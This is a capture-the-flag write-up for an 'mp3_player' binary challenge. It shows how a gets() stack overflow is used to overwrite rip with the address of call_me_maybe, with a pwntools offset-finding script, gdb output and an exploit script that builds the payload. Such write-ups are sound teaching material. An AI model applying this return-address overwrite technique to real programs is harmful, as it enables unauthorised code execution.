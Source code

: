The binary and the source-code were provided for this challenge.

The C-code uses the `gets()` function to gather user input, which is vulnerable to a buffer overflow attack where we can overwrite the instruction pointer `rip` to call the function printing the flag.

We need to find the amount of bytes needed to overwrite the instruction pointer `rip`, and use that as padding before we overwrite `rip` with the function address of *call_me_maybe*, which gives us the flag.

The offset before overwriting the instruction pointer can be found with the python script *find_offset.py* (requires pwntools `pip install pwntools`), or by manually segmentation faulting the program, and find the amount of bytes needed for the segmentation fault to occur.
```python
from pwn import *

elf = ELF("./mp3_player", checksec=False)
p = elf.process()

# Overflow the buffer
p.recvuntil(b"ABBA")
p.sendline(cyclic(150))
p.wait()

# Read corefile to get RIP offset
core = p.corefile
offset = cyclic_find(core.read(core.rsp, 4))
print(offset)
```
{: file="find_offset.py" }

The function address we want to overwrite the instruction pointer `rip` with can be found with pwntools' `elf.symbols["call_me_maybe"]` or with *gdb*
```bash
$ gdb mp3_player
$ disas call_me_maybe
Dump of assembler code for function call_me_maybe:
   0x00000000004012fb <+0>:	endbr64
   0x00000000004012ff <+4>:	push   %rbp
   0x0000000000401300 <+5>:	mov    %rsp,%rbp
```
{: .nolineno }

Giving the address of the function 0x4012fb

The payload is then crafted by sending 40 bytes (our found offset) and the function address 0x4012fb as bytes.

The exploit-script ended up as the following
```python
from pwn import *

context.arch = "amd64"
elf = ELF("./mp3_player", checksec=False)

if args.LOCAL:
    p = elf.process()
else:
    host = args.HOST or "localhost"
    port = int(args.PORT or 8006)
    p = remote(host, port)

offset = 40
ret_addr = elf.symbols["call_me_maybe"]

payload = b'A' * offset
payload += p64(ret_addr)

```